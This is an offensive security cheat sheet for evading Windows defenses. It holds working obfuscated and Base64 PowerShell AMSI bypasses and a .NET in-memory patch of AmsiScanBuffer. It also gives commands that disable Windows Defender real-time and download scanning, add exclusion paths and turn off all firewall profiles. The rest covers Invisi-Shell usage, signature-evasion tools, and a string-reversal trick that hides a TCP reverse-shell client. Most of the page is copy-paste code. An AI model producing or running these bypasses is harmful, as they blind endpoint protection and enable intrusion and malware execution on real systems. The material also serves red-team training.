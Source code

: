 # Bypass defenses

## AMSI Bypass

### PowerShell AMSI Bypass &#x20;

{% tabs %}
{% tab title="Obfuscated" %}
{% code fullWidth="false" %}
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
{% endcode %}
{% endtab %}

{% tab title="Base64" %}
<pre class="language-powershell"><code class="lang-powershell"><strong>[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
</strong></code></pre>
{% endtab %}
{% endtabs %}

### .NET AMSI Bypass

```powershell
$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $ZQCUW

$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
```

## Windows Defender

> **Note:** If Tamper protection is enabled you will not be able to turn off Defender by CMD or PowerShell. You can however, still create an exclusion.

Disable real time monitoring

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Disable scanning for downloaded files (more silent and preferred)

```powershell
Set-MpPreference -DisableIOAVProtection $true
```

Create an exclusion

```powershell
Add-MpPreference -ExclusionPath "C:\Windows\Temp"
```

## Firewall&#x20;

> **Note:** requires Admin privileges.

Disable using PowerShell

```powershell
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```

Disable manually

<figure><img src="../.gitbook/assets/disable-firewall.png" alt=""><figcaption></figcaption></figure>

## Invisi-Shell

{% embed url="https://github.com/OmerYa/Invisi-Shell" %}

Invisi-Shell bypasses all of PowerShell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking&#x20;

Usage

```powershell
# With admin privileges:
RunWithPathAsAdmin.bat 

# More Silent
# With non-admin privileges:
RunWithRegistryNonAdmin.bat

# Type exit from the new PowerShell session to complete the clean-up.
exit
```

## AV Signatures Bypass

### AMSITrigger

&#x20;identify the part of a script is detected

{% embed url="https://github.com/RythmStick/AMSITrigger" %}
AMSITrigger
{% endembed %}

usage

```powershell
AmsiTrigger_x64.exe -i PowerUp.ps1 
```

Example for scanning

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Example for bypassing&#x20;

<pre class="language-powershell"><code class="lang-powershell"><strong># Reverse the "Net.Sockets" string
</strong><strong>
</strong><strong>$String = "stekcoS.teN"
</strong>$class = ([regex]::Matches($String,'.','RightToLeft') | ForEach {$_.value}) -join ''
if ($Reverse)
{
 $client = New-Object System.$class.TCPClient($IPAddress,$Port)
}
</code></pre>

### DefenderChecker&#x20;

Identify code and strings from a binary / file that Windows Defender may flag

{% embed url="https://github.com/t3hbb/DefenderCheck" %}
DefenderChecker
{% endembed %}

usage

```powershell
DefenderCheck.exe PowerUp.ps1 
```

